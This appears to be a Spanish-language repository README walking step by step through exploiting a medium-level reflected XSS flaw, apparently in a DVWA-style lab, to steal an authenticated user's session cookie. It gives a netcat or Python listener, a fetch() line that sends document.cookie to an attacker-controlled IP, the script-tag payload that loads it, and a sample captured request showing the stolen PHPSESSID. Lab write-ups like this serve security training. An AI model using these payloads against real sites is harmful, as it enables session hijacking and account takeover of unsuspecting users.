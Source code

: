 # Explotación XSS Nivel Medio para Robo de Cookies

Este repositorio describe paso a paso cómo explotar una vulnerabilidad Cross-Site Scripting (XSS) de nivel medio para robar la cookie de un usuario autenticado.

## Descripción General

El objetivo es inyectar código JavaScript malicioso en un parámetro vulnerable de una página web. Este script se ejecutará en el navegador de la víctima y enviará su cookie de sesión a un servidor web controlado por el atacante.

## Pasos de la Explotación

1.  **Configurar el servidor web temporal:**
    ```bash
    nc -lvp 9999
    ```
    o

    ```bash
    python3 -m http.server 9999
    ```

    Este comando inicia un servidor web simple con `netcat` o `python` que escucha en el puerto 9999.

2.  **Crear el script malicioso (`a.js`):**
    Crea un archivo llamado `a.js` con el siguiente contenido, reemplazando `[tu_Kali_IP]` con la dirección IP de tu máquina atacante:
    ```javascript
    fetch('http://[tu_Kali_IP]:9999/?cookie=' + document.cookie);
    ```
    Este script utiliza `fetch` para enviar la cookie del usuario a tu servidor.

3.  **Poner el servidor web a la escucha:**
    Asegúrate de que la terminal donde ejecutaste el comando `netcat` esté activa y esperando conexiones.

4.  **Acceder a la página vulnerable con el payload:**
    En el campo vulnerable de la página web, introduce el siguiente payload, reemplazando `[tu_Kali_IP]` con tu dirección IP:
    ```html
    <SCRIPT src="http://[tu_Kali_IP]:9999/a.js"></SCRIPT>
    ```
    Envía el formulario.

5.  **Verificar la recepción de la cookie:**
    En la terminal de `netcat`, deberías ver una petición GET que incluye la cookie de la víctima en la URL, similar a:
    ```
    GET /?cookie=PHPSESSID=alguna_cadena_aleatoria; security=medium HTTP/1.1
    Host: [tu_Kali_IP]:9999
    User-Agent: ...
    Connection: close
    ```
    Esto puede cambiar dependiendo de si estamos escuchando con python.
    El valor después de `cookie=` es la cookie robada.

![imagen vulnerabilidad 1](../../assets/XSSReflectedMedium01.png)
